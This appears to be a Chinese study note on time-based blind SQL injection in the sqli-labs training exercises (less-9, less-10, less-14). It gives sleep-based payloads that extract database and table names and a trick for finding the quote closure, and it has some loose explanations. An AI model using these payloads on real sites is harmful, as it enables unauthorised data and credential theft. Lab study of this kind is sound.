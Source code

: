 ###### **函数**： 

sleep(2)  休眠2秒
if( 1=2 , sleep(0) , sleep(3) ) 解析：1=2 为真 ，执行 sleep(0) 语句 ； 为假 ，执行 sleep(3) 

```mysql
?id=1' and if(ascii(substr((select database()),1,1))>=115,sleep(0),sleep(3)) -- -
```

对database()的第一个字符进行猜测 如果ascii != 115 则休眠3秒 , 如果 = 115 直接刷新 ; 更改substr参数猜出后面的字符

```mysql
?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>=101,sleep(0),sleep(3)) -- -
```

推测出第一行表的第一个字符的ascii为101 以此类推爆出字段、username、password...

------

## less-10（时间盲注）

基于GET型的时间盲注 闭合方式 "

```mysql
?id=1" and if(ascii(substr((select table_name from information_schema.tables where table_schema=database()),1,1))>=115,sleep(0),sleep(3)) -- -
```

以此类推 与less-9同理 不多赘述

------

------

## POST提交注入:

get提交会被缓存 post不会
get提交会被保存在浏览器的历史记录里 post不会
get提交可以保存为书签 post不会
get提交有长度限制为2048个字符 post没有长度要求 可以使用ASCII和二进制字符
**post提交比get提交更安全**

## POST找闭合方式技巧：

POST注入中 可以如果和万能密码有关 可以通过

```mysql
=qwe" or if(1=2,sleep(0),sleep(3)) -- -                                                      (less-14)
```

(修改闭合方式 如果sleep(3)了 那就是该闭合方式)
可以快速找到闭合方式 进行下一步SQL注入

------
